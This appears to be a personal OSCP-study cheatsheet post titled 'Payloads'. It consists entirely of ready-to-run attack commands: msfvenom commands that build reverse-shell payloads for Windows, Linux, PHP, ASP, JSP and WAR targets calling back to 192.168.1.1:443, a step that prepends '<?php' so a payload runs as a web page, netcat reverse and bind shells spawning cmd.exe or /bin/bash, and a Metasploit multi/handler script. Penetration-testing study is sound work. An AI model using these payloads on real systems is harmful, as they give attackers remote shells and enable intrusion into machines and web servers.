```yaml
---
title: Payloads
author: linatl
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### List payload options
```
> msfvenom -l payloads | grep php
> msfvenom -l archs
> msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
> msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```

###### .elf reverse shell
```
x86
> msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
> msfvenom -p linux/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
```

###### .sh reverse shell
```
> msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```

###### .exe reverse shell
```
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### .php reverse shell
```
> msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php

Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage.
> cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste > shell.php
```

###### Some more reverse shells
```
.asp
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
> msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Netcat reverse shell
```
Set up a listener
 > nc -nvlp 443

Connect to the listener (Windows)
 > nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
 > nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 > nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 > nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
> nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
